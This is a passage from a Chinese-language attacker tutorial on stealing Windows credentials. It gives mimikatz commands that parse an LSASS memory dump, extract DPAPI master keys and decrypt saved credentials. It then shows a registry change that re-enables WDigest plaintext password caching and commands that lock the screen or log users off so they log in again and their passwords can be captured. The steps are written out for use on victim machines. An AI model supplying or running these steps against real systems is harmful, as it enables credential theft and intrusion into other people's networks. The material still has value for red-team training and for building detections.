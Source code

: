 ```
Sekurlsa::minidump lsass1.dump
```

![image-20230202180935850](https://img.gyxnb.top/img/image-20230202180935850.png)

4、获取Credentials的GUID

```
dpapi::cred /in:FF22A1FDA68FD8515B52C534E8655421
```

![image-20230202180958678](https://img.gyxnb.top/img/image-20230202180958678.png)

5、获取内存中所有的MasterKey

```
sekurlsa::dpapi
```

![image-20230202194358750](https://img.gyxnb.top/img/image-20230202194358750.png)

6、利用MasterKey解密

```
dpapi::cred /in:FF22A1FDA68FD8515B52C534E8655421 /masterkey:b3354c56cd35630d10aa7477c3d16e9b94587f1dc6f9d0c8fcb72a5e4a25c8aab8fa242194666c4cc4be9485c31af555b01a49abbfbb8cc1c00d209da624f33c
```

![image-20230202194436859](https://img.gyxnb.top/img/image-20230202194436859.png)

# Windows-2012R2之后抓取密码的方式

在Windows2012系统及以上的系统，默认在*内存缓存中 禁止 保存明文密码*的。攻击者可以通过 *修改注册表* 的方式 抓取明文，需要用户*重新登录后*才能成功抓取

![image-20230203154647667](https://img.gyxnb.top/img/image-20230203154647667.png)



## 修改注册表和锁屏

### 修改注册表

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f #开启
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f #关闭
```

![image-20230203154722396](https://img.gyxnb.top/img/image-20230203154722396.png)

### 锁屏

```
rundll32.exe user32.dll,LockWorkStation #锁屏

query user #查询登录
logoff ID号 #下线
```
